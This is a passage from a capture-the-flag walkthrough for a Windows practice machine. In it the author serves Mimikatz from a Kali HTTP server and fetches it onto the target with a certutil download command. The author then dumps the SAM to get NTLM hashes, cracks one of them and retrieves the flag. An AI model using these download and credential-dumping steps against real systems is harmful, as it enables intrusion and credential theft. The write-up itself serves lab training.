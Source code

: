 Will see the architecture of the system will run the below command

The system is x86
![[Pasted image 20230910214708.png]]

We have simply download the Mimikatz and will simply fire-up a server and download it in the windows
https://github.com/gentilkiwi/mimikatz/releases

I fired up the server in kali
python3 -m http.server 8080 -b 10.8.167. 78

Will simply download it
certutil.exe -urlcache -f http://10.8.167.78:8080/mimikatz.exe mimikatz.exe
![[Pasted image 20230910221552.png]]

Now simply start the Mimikatz
![[Pasted image 20230910221730.png]]

Run the command: lsadump::sam
![[Pasted image 20230910222004.png]]

mimikatz # lsadump::sam
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450

Now we have to ![[Pasted image 20230910222500.png]]
hash 30e87bf999828446a1c1209ddde4c450
|Hash|Type|Result|
|---|---|---|
|30e87bf999828446a1c1209ddde4c450|NTLM|googleplus|

Now will will traverse to Users -> Administrator -> Desktop

![[Pasted image 20230910232227.png]]

THM{aea1e3ce6fe7f89e10cea833ae009bee}
